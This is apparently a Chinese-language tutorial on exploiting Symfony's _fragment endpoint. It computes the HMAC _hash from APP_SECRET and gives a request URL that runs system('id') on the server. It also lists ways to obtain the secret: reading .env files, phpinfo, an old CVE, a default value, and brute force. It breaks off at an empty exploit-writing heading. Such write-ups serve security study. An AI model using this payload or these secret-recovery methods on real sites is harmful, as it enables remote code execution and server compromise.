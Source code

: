 ```php
    private function computeHash(string $uri): string
    {
        # [1]
        return base64_encode(hash_hmac('sha256', $uri, $this->secret, true));
    }
```

所以正常情况下，`_hash` 对应的值的生成逻辑如下（假设这里的APP_SECRET为正确的secret）- 前提是知道secret：

```python
import base64, hmac, hashlib
print(base64.b64encode(hmac.HMAC(b'{{APP_SECRET}}', b'http://localhost:8000/_fragment', hashlib.sha256).digest()))
# 假设Return : b'lNweS5nNP8QCtMqyqrW8HIl4j9JXIfscGeRm/cmFOh8='
```

然后访问url： `http://localhost:8000/_fragment?_hash=lNweS5nNP8QCtMqyqrW8HIl4j9JXIfscGeRm/cmFOh8=` 会发现原本403的网页变为404 （ 因为没有其他指定请求属性，无法找到Controller）

如果要设置 `system($command)` 则如下：

```txt
 page="http://localhost:8000/_fragment?_path=_controller%3Dsystem%26command%3Did%26return_value%3Dnull"
```

此时返回 `500` 并且显示代码执行成功。

## secret

secret是什么？它是一个字符串，它用于Symfony框架的一些加密和验证操作，如创建cookie或防止CSRF的令牌。秘密值应该是随机生成的，并且不应该被泄露给任何人

获取secret的方式有以下几种

- 读取文件
  
  - `app/config/parameters.yml`
    
  - `.env`
    
- phpinfo
  
  - `$server['APP_SECRET']`
- SSRF / IP spoofing (CVE-2014-5245) ： < 2.5.3, 请求来自于受信任的代理，会被认为是安全的而无需secret
  
- 默认值/常见值: `ThisTokenIsNotSoSecretChangeIt` （更多参考[symfony-exploits/secret_fragment_exploit.py at main · ambionics/symfony-exploits · GitHub](https://github.com/ambionics/symfony-exploits/blob/main/secret_fragment_exploit.py) 下给出的一些常见secret）
  
- Bruteforce:
  
  - 可行性：
    
    1.   一些人喜欢用特定密码
      
    2. secret也用于csrf加密
      

## exp编写

